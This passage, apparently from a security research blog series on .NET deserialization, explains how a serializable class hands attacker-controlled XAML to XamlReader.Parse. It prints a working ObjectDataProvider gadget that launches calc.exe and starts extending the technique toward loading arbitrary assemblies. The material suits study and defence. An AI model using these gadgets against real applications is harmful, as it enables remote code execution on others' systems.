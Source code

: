 As you can see, this class is marked as `[Serializable]` and implements the [ISerializable](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.iserializable?view=net-7.0) interface, which means that on deserialisation the special deserialisation constructor is called. Inside this constructor there is a call to the `GetObjectFromSerializationInfo` method:

```csharp
private object GetObjectFromSerializationInfo(string name, SerializationInfo info)
{
  string xamlText = info.GetString(name);
  return xamlText == "null" ? (object) null : XamlReader.Parse(xamlText);
}
```

Here the string of serialised data, which is controlled by an attacker in case of a deserialization vulnerablity, is passed to the `XamlReader.Parse` method. So basically, an attacker controls XAML data that is parsed. As we already know from the previous part, this leads to remote code execution.

## ObjectDataProvider features and limitations

Ok, we can run `Process.Start("calc.exe")`. But how about something more complex? Something like `Assembly.Load(dllBytes)`.

As we already know, `ObjectDataProvider` can be used to execute static methods on types. We've used this feature to call `Process.Start`:

```xml
<ResourceDictionary
	xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
	xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
	xmlns:s="clr-namespace:System;assembly=mscorlib"
	xmlns:d="clr-namespace:System.Diagnostics;assembly=System">

<ObjectDataProvider x:Key="calc"
                    ObjectType="{x:Type d:Process}"
                    MethodName="Start">
    <ObjectDataProvider.MethodParameters>
        <s:String>calc.exe</s:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

</ResourceDictionary>
```

Now let's look at other useful features of the `ObjectDataProvider`, such as the ability to call object constructors with arguments and the ability to call methods on instances. For example, we have the following code:

```csharp
public class DataObject
{
	public string[] items;

	public DataObject(string[] items)
	{
		this.items = items;
	}

	public string[] GetItems(int count)
	{
		return items.Take(count).ToArray();
	}
}
```
